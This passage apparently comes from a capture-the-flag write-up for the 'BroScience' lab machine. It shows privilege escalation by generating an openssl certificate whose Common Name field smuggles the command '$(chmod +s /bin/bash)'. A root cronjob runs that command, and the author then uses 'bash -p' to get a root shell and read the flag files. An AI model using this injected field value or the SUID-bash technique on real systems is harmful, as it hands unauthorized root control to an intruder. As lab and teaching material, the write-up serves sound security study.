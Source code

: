 ```bash
bill@broscience:~/Certs$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout broscience.key -out broscience.crt -days 1
Generating a RSA private key
....................++++
...........................................................................................................................................++++
writing new private key to 'broscience.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:AU
State or Province Name (full name) [Some-State]:State
Locality Name (eg, city) []:city
Organization Name (eg, company) [Internet Widgits Pty Ltd]:company
Organizational Unit Name (eg, section) []:section
Common Name (e.g. server FQDN or YOUR name) []:$(chmod +s /bin/bash)
Email Address []:noreply@decl.com
```

After waiting for the cronjob to trigger, we can see we gained a root shell.

```bash
bill@broscience:~/Certs$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.2M Mar 27  2022 /bin/bash
bill@broscience:~/Certs$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /home/bill/user.txt
**REDACTED**
bash-5.1# cat /root/root.txt
**REDACTED**
```